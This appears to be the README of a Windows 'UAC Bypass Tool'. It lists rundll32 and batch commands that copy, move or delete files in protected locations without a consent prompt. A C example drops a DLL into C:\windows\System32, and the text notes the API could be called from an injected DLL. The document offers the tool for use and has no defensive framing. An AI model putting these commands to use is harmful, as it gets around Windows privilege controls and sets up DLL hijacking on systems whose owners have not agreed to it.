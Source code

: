 
UAC Bypass Tool
 
What's different? 
 
	This tool doesn't use dll injection and can be used from the command-line or another application.

	On Success the program exits with exit-code zero, non-zero when failed.

	Note: Use quoted strings for the file names when using the tool from the command-line.
	
Command-line Usage:

	rundll32.exe uaccpy32.dll,Copy "source" "target" [/AllowWarning]
	rundll32.exe uaccpy32.dll,Move "source" "target" [/AllowWarning]
	rundll32.exe uaccpy32.dll,Delete "target" [/AllowWarning]
	
	rundll32.exe uaccpy64.dll,Copy "source" "target" [/AllowWarning]
	rundll32.exe uaccpy64.dll,Move "source" "target" [/AllowWarning]
	rundll32.exe uaccpy64.dll,Delete "target" [/AllowWarning]
	
Command-line Usage using the batch wrapper:

   uacbp.bat Copy "source" "target" [/AllowWarning]
   uacbp.bat Move "source" "target" [/AllowWarning]
   uacbp.bat Delete "target" [/AllowWarning]

   
API Usage, not the purpose of this dll, the functions are just available. 
Using from a normal application will result in user consent being asked,
could be used to call from an injected dll. 
(But that's not the purpose of this tool)

#include "uaccpyapi.h"

#pragma comment(lib, "uaccpy32.lib")
// OR #pragma comment(lib, "uaccpy64.lib")

int _tmain(int argc, _TCHAR* argv[])
{
	BOOL bInit = FALSE;
	BOOL bResult;
	
	if (NeedsUserConsent())
	{
		_tprintf(_T("There will be asked for user consent anyway when called from another application.\n"));
		//return -1;
	}

	if (!(bInit = SUCCEEDED(CoInitializeEx(NULL, COINIT_APARTMENTTHREADED | COINIT_DISABLE_OLE1DDE))))
	{
		_tprintf(_T("CoInitializeEx failed.\n"));
		return -1;
	}

	UacOperation(_T("C:\\Users\\Username\\Desktop\\source.dll"), _T("C:\\windows\\System32"), _T("target.dll"), UACOP_COPY);

	CoUninitialize();

	return 0;
}
